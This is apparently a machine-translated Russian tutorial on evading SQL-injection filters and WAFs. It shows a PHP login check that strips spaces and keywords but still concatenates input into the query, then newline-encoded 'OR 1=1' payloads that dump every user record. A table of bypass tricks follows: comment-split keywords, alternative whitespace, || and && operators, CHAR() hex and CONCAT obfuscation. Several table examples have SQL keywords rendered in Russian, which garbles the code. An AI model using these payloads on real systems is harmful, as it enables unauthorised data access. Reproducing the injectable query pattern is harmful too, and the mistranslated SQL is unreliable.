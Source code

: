 Вот PHP- фильтрация, добавленная разработчиком.

$special_chars = array(" ", "AND", "and" ,"or", "OR" , "UNION", "SELECT");
$username = str_replace($special_chars, '', $username);
$sql = "SELECT * FROM user WHERE username = '$username'";
Если мы используем нашу стандартную полезную нагрузку 1%27%20||%201=1%20--+на конечной точке, то увидим, что даже с помощью кодирования URL она не работает.

инъекция с неправильной полезной нагрузкой

Запрос SQL показывает, что пробелы пропускаются кодом.  Чтобы обойти эти защиты, мы можем использовать URL-кодированные символы, которые представляют различные типы пробелов или переносов строк, такие как %09(горизонтальная табуляция), %0A(перевод строки). Эти символы могут заменять пробелы и по-прежнему правильно интерпретироваться анализатором SQL .

Исходную полезную нагрузку 1' OR 1=1 --можно изменить, чтобы использовать символы новой строки вместо пробелов, что приведет к полезной нагрузке 1'%0A||%0A1=1%0A--%27+. Эта полезная нагрузка создает то же логическое условие, что и , 1' OR 1=1 --но использует символы новой строки для обхода фильтра пробелов.

Синтаксический анализатор SQL интерпретирует символы новой строки как пробелы, преобразуя полезную нагрузку в 1' OR 1=1 --. Таким образом, запрос будет интерпретироваться из  SELECT * FROM users WHERE username = '$username'в  SELECT * FROM users WHERE username = '1' OR 1=1 --.

Теперь, если мы получим доступ к конечной точке через обновленную полезную нагрузку, мы сможем просмотреть все детали. 

инъекция с правильной полезной нагрузкой

Подводя итог, важно понимать, что ни один метод не гарантирует обход при работе с фильтрами или брандмауэрами веб-приложений (WAF), разработанными для предотвращения атак с использованием SQL- инъекций .  Однако вот несколько советов и приемов, которые можно использовать для обхода этих защит. В этой таблице представлены различные методы, которые можно использовать для обхода фильтров и WAF:


Сценарий	Описание	Пример
Ключевые слова типа SELECT запрещены
Ключевые слова SQL часто можно обойти, изменив их регистр или добавив встроенные комментарии, чтобы разбить их
ВЫБЕРИТЕ * ОТ ПОЛЬЗОВАТЕЛЕЙ или SE/**/LECT * ОТ/**/пользователей
Пространства запрещены
Использование альтернативных пробельных символов или комментариев для замены пробелов может помочь обойти фильтры.
`SELECT%0A*%0AFROM%0Ausers или SELECT/**/*/**/FROM/**/users`
Логические операторы, такие как И, ИЛИ, запрещены.
Использование альтернативных логических операторов или конкатенации для обхода фильтров ключевых слов.
имя пользователя = 'admin' && пароль = 'password' или имя пользователя = 'admin'/**/||/**/1=1 --
Распространенные ключевые слова, такие как UNION, SELECT, запрещены.
Использование эквивалентных представлений, таких как шестнадцатеричная или кодировка Unicode, для обхода фильтров.
ВЫБРАТЬ * ИЗ пользователей, ГДЕ имя пользователя = CHAR(0x61,0x64,0x6D,0x69,0x6E)
Определенные ключевые слова, такие как OR, AND, SELECT, UNION, запрещены.
Использование методов обфускации для маскировки ключевых слов SQL путем объединения символов со строковыми функциями или комментариями.
SELECT * FROM users WHERE username = CONCAT('a','d','m','i','n') или SELECT/**/username/**/FROM/**/users
